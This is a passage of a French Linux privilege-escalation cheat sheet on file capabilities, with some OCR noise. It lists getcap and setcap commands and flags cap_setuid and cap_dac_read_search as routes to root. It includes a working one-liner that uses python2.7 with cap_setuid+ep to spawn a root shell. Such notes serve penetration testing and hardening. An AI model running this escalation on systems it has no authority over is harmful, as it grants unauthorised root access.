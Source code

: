 
## Capacités

### Lister les capacités des binaires

```bash

f1 'a8'71'a9'a4
f0 swissky@lab ~  

f1 'a8'74'a9'a4
f0 $ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

### Editer les capacités

```powershell
/usr/bin/setcap -r /bin/ping            # supprime
/usr/bin/setcap cap_net_raw+p /bin/ping # ajoute
```

### Capacités intéressantes

Avoir la capacité =ep veut dire que le binaire a toutes les capacités.
```powershell
$ getcap openssl /usr/bin/openssl 
openssl=ep
```

En alternative, on peut utiliser les capacités suivantes pour upgrade nos privilèges actuels.

```powershell
cap_dac_read_search # pouvoir lire n'importe quoi
cap_setuid+ep # setuid
```

Exemple d'escalade de privilèges avec `cap_setuid+ep`

```powershell
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```

| Nom de la capacité  | Description |
|---|---|
| CAP_AUDIT_CONTROL  | Autorise l'activation/désactivation de l'audit du kernel |
| CAP_AUDIT_WRITE  | Aide à écrire les enregistrements dans les logs de l'audit du kernel |
| CAP_BLOCK_SUSPEND  | Cette fonctionnalité peut bloquer les suspensions du système   |
| CAP_CHOWN  | Autorise l'utilisateur à faire des modifications arbitraires aux fichiers UIDs et GIDs |
| CAP_DAC_OVERRIDE  | Aide à contourner les vérifications des permissions de lecture, d'écriture ou d'exécution |
| CAP_DAC_READ_SEARCH  | Contourne uniquement les vérifications de permissions de lecture/d'exécution des fichiers et des répertoire  |
| CAP_FOWNER  | Permet de contourner les contrôles d'autorisation sur les opérations qui exigent normalement que l'UID du système de fichiers du processus corresponde à l'UID du fichier  |